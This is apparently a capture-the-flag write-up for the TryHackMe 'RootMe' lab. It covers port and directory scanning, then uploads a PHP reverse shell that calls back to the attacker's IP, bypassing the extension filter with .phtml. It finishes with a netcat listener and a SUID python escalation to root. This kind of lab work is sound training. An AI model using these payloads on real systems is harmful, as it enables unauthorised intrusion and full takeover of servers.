 # RootMe

[Play](https://tryhackme.com/room/rrootme)

## 1. Scanning & Enumeration
### 1.1 Port Scanning
```
┌──(kali㉿kali)-[~]
└─$ nmap -sC -sV -A 10.10.35.149
Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-09 01:18 EDT
Nmap scan report for 10.10.35.149
Host is up (0.20s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: HackIT - Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 35.57 seconds
```

While go buster and nmap runs, I wanted to see if the website is built on php or not. The following works!

`http://10.10.35.149/index.php`

### 1.2 Web Enumeration
```
┌──(kali㉿kali)-[~]
└─$ gobuster dir -u 10.10.35.149 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -q
/uploads              (Status: 301) [Size: 314] [--> http://10.10.35.149/uploads/]
/css                  (Status: 301) [Size: 310] [--> http://10.10.35.149/css/]
/js                   (Status: 301) [Size: 309] [--> http://10.10.35.149/js/]
/panel                (Status: 301) [Size: 312] [--> http://10.10.35.149/panel/]
```

Panel looks interesting, so let’s try uploading a README.md file (of this repo).

![https://i.imgur.com/1xtAlAB.png](https://i.imgur.com/1xtAlAB.png)

Success! Let’s check the uploads page.

![https://i.imgur.com/XV6CLIc.png](https://i.imgur.com/XV6CLIc.png)


### 1.3 Revshell Time
Time for a phpreverseshell. Go to pentestmonkey or revshells.com and get the php one.

```
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP. Comments stripped to slim it down. RE: https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net

set_time_limit (0);
$VERSION = "1.0";
$ip = '10.8.150.214';
$port = 1337;
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; sh -i';
$daemon = 0;
$debug = 0;
...
```

Okay, time for uploading! ... and we get 

![A screenshot of rejected message from the uploads page](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/b1a725c9-6fa3-471a-890e-ed702dc32876/Untitled.png)

Clearly the extension is working against us, since `.md` passed. 

So let's see what other extensions are allowed. [Source](https://www.guru99.com/what-is-php-first-php-program.html)

- .phtml
- .php3
- .php4
- .php5
- .phps

Okay. One by one.

## 2. Foothold

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/d4cc0a26-2daa-4b74-82bc-afc81ac4bed0/Untitled.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/d4cc0a26-2daa-4b74-82bc-afc81ac4bed0/Untitled.png)

Ha! `.phtml` works! Lesgooo

```
┌──(kali㉿kali)-[/tmp]
└─$ nc -lvnp 1337      
listening on [any] 1337 ...
connect to [10.8.150.214] from (UNKNOWN) [10.10.35.149] 33678
Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 05:39:36 up 30 min,  0 users,  load average: 0.00, 0.01, 0.18
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ pwd
/                                                                                 
$ ls                                                                              
bin                                                                               
boot                                                                              
cdrom                                                                             
dev
... 
```

## 3. PrivEsc

```
www-data@rootme:/home/rootme$ find / -type f -perm -u=s 2>/dev/null
find / -type f -perm -u=s 2>/dev/null                                                                                                                                   
/usr/lib/dbus-1.0/dbus-daemon-launch-helper                                                                                                                             
/usr/lib/snapd/snap-confine                                                                                                                                             
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/bin/traceroute6.iputils
/usr/bin/newuidmap
/usr/bin/newgidmap
/usr/bin/chsh
/usr/bin/python
/usr/bin/at
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/pkexec
/snap/core/8268/bin/mount
...
/snap/core/9665/usr/sbin/pppd
/bin/mount
/bin/su
/bin/fusermount
/bin/ping
/bin/umount
```

python thing looks interesting. [gtfobins](https://gtfobins.github.io/gtfobins/python/#suid) ftw!

```
www-data@rootme:/$ /usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
<hon -c 'import os; os.execl("/bin/sh", "sh", "-p")'
whoami
root
bash -i
bash: cannot set terminal process group (891): Inappropriate ioctl for device
bash: no job control in this shell
bash-4.4$
```

We are done!
